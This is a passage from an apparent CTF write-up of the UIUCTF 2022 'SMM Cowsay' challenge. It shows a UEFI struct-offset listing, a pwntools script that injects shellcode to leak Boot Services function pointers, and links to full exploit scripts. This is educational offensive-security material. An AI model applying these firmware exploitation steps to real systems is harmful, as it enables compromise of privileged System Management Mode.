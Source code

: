 ```c
    EFI_CONFIGURATION_TABLE *  ConfigurationTable;   /*   112     8 */

    /* size: 120, cachelines: 2, members: 13 */
    /* sum members: 116, holes: 1, sum holes: 4 */
    /* last cacheline: 56 bytes */
} EFI_SYSTEM_TABLE;
```

This tells us that `BootServices` is at offset 96 in `SystemTable` (type
`EFI_SYSTEM_TABLE`). Likewise we can look at `EFI_BOOT_SERVICES` to see that
`LocateProtocol` is at offset `320` in
`BootServices`.

Setting things up with Python and pwtools, the code needed is as follows:

```python
# Little hack needed to disable pwntools from taking over the terminal with
# ncurses and breaking the output if we do conn.interactive() since the remote
# program outputs \r\n for newlines.
import os
os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

context(arch='amd64')

os.chdir('handout/run')
conn = process('./run.sh')
os.chdir('../..')

conn.recvuntil(b'Address of SystemTable: ')
system_table = int(conn.recvline(), 16)

log.info('SystemTable @ 0x%x', system_table)

conn.recvline()

code = asm(f'''
    mov rax, {system_table}
    mov rax, qword ptr [rax + 96]  /* SystemTable->BootServices */
    mov rbx, qword ptr [rax + 64]  /* BootServices->AllocatePool */
    mov rcx, qword ptr [rax + 320] /* BootServices->LocateProtocol */
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RBX: 0x')
AllocatePool = int(conn.recvn(16), 16) # useful for later
conn.recvuntil(b'RCX: 0x')
LocateProtocol = int(conn.recvn(16), 16)

log.success('BootServices->AllocatePool   @ 0x%x', AllocatePool)
log.success('BootServices->LocateProtocol @ 0x%x', LocateProtocol)
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31